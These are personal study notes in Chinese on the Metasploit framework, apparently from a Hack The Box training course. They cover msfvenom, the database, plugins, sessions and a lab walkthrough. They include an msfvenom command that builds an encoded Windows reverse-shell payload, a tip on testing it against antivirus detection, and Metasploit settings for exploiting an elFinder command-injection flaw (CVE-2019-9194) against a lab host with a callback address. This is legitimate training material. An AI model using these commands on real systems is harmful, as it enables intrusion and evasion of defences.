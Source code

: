 create an encoded payload
```
user@htb$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

可以結合`mfs-virustotal` 來看加密後的會不會被偵測到(需要先申請VT API)

>Database

```
sudo systemctl start postgresql

sudo msfdb init
sudo msfdb status
sudo msfdb run

sudo systemctl status postgresql
```

用`workspace`
`-a` 添加工作區
`-d` 刪除工作區

還有個`db_nmap`指令 :O

`hosts`：顯示目前資料庫中儲存的所有主機資訊
`services`：顯示目前資料庫中儲存的所有服務資訊
`creds`：顯示目前資料庫中儲存的所有與目標互動的憑證資訊
`loot`：顯示目前資料庫中儲存的所有使用者與服務的憑證，通常與 `creds` 命令搭配使用

>Plugins

依然是插件王者
`ls /usr/share/metasploit-framework/plugins`

其他資源: https://github.com/darkoperator/Metasploit-Plugins.git

啟動
`load <PLUG-IN>`

>Sessions

他可能是想tmux跟git的聰明小功能都搞了

`Ctrl+Z` 把session丟到背景
`sessions` 列出所有session
`sessions -i <No.>` 跟特定sesssion互動

>jobs

`jobs -l`
`jobs -K` kill all
`kill <NO.>`

>[!note]+ LAB3
>先從html看到它是一個elfinder系統在/#elf_l1_Lw下面
>看了一下有一個elFinder RCE(CVE-2019-9194)
>nmap:
>```txt
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
>80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set TARGETURI /#elf_l1_Lw
>TARGETURI => /#elf_l1_Lw
>msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set LHOST 10.10.14.18
>LHOST => 10.10.14.18
>msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set RHOST 10.129.38.184
>```
>這樣是進去了 但是顯示是`www-data` 需要提權到root
>然後我是小丑 其實這是sudo CVE